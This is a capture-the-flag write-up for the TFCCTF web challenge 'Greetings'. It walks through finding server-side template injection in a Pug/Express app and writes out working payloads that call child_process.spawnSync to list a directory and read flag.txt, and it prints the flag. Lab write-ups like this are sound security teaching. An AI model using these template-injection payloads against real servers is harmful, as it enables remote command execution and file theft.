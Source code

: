 # GREETINGS

![](../images/greetings-part-1.png)

I start the instance, and click on the link generated by the instance, which takes me to this website:

![](../images/greetings-part-2.png)

I decide to enter my username as "a", which results in:

![](../images/greetings-part-3.png)

I then glance at the URL at the top of the page:

```txt
http://challs.tfcctf.com:30691/result?username=a
```

Wondering what would happen if I deleted the `?username` field from the URL, I change the URL to:

```txt
http://challs.tfcctf.com:30691/result
```

Which results in:

![](../images/greetings-part-4.png)

I then open Burpsuite. While browsing through the requests and responses, I notice something interesting in one of the responses:

![](../images/greetings-part-5.png)

Express is a framework for Node, which is written in Javascript. Due to this, I now have many Javascript exploits to choose from. I decide to use a Javascript SSTI first, so I enter:

![](../images/greetings-part-6.png)

Now, if the website gives me an error after executing this, it is vulnerable to SSTI (as this sends a broken template to the server. If the server doesn't process templates from the user, it wouldn't give an error). I then execute my input, which results in:

![](../images/greetings-part-7.png)

The website is vulnerable. Looking through the text of the error:

```txt
Syntax Error: Unexpected token
    at makeError (/usr/src/app/node_modules/pug-error/lib/index.js:34:15)
    at Lexer.error (/usr/src/app/node_modules/pug-lexer/index.js:62:15)
    at Lexer.assertExpression (/usr/src/app/node_modules/pug-lexer/index.js:96:12)
    at Lexer.addText (/usr/src/app/node_modules/pug-lexer/index.js:627:12)
    at Lexer.text (/usr/src/app/node_modules/pug-lexer/index.js:653:12)
    at Lexer.callLexerFunction (/usr/src/app/node_modules/pug-lexer/index.js:1647:23)
    at Lexer.advance (/usr/src/app/node_modules/pug-lexer/index.js:1689:12)
    at Lexer.callLexerFunction (/usr/src/app/node_modules/pug-lexer/index.js:1647:23)
    at Lexer.getTokens (/usr/src/app/node_modules/pug-lexer/index.js:1706:12)
    at lex (/usr/src/app/node_modules/pug-lexer/index.js:12:42)
```

The website seems to be stored in the `/usr/src/app/` directory of the server, as the `/app/` directory contains the subdirectory of `/node_modules/`. So, I type:

```txt
 #{process.mainModule.require('child_process').spawnSync('ls', ['/usr/src/app/']).stdout}
```

This command forces the entry point of the server (`process.mainModule`) to be able to create subprocesses (`.require('child_process')`). Then, a new processes is created by the server, executing the shellcode of `ls /usr/src/app/` (`.spawnSync('ls', ['/usr/src/app/'])`), with the standard output of the command enabled (`.stdout`). I then execute the command, which results in:

![](../images/greetings-part-9.png)

I then type:

```txt
#{process.mainModule.require('child_process').spawnSync('cat', ['/usr/src/app/flag.txt']).stdout}
```

This command is very similar to my previous command, but instead of listing all the files in the `/usr/src/app/` directory, it uses the `cat` comamnd to output the contents of `flag.txt`. I then execute the command, which results in:

![](../images/greetings-part-10.png)

I then submit `TFCCTF{a6afc419a8d18207ca9435a38cb64f42fef108ad2b24c55321be197b767f0409}`, and solve the challenge.










